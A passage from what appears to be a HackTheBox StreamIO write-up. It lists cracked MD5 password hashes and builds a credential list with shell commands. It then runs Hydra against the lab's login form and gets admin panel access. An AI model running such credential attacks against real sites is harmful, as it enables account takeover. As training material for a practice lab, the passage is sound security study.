```
Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara
dfdfdf:ae27a4b4821b13cad2a17a75d219853e:dfdfdf
Juliette:6dcd87740abb64edfa36d170f0d5450d:$3xybitch
Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..

# cat user_pass | cut -d: -f1 > user
# cat user_pass | cut -d: -f1 > pass
# cat user_pass | cut -d: -f1,3 > userpass
# cat userpass                                 
admin:paddpadd
Barry:$hadoW
Bruno:$monique$1991$
Clara:%$clara
dfdfdf:dfdfdf
Juliette:$3xybitch
Lauren:##123a8j8w5123##
Lenord:physics69i
Michelle:!?Love?!123
Sabrina:!!sabrina$
Thane:highschoolmusical
Victoria:!5psycho8!
yoshihide:66boysandgirls..
```

Now we will use Hydra's `https-post-form` Module to try each of the above creds on the `http://stream.htb/login.php` form.
```
# hydra -C userpass streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=failed"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-10 20:33:13
[DATA] max 13 tasks per 1 server, overall 13 tasks, 13 login tries, ~1 try per task
[DATA] attacking http-post-forms://streamio.htb:443/login.php:username=^USER^&password=^PASS^:F=failed
[443][http-post-form] host: streamio.htb   login: yoshihide   password: 66boysandgirls..
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-10 20:33:14
```
We found that the password for user `Yoshihide` would work on the login form. And we were able to load the Admin Panel as well.
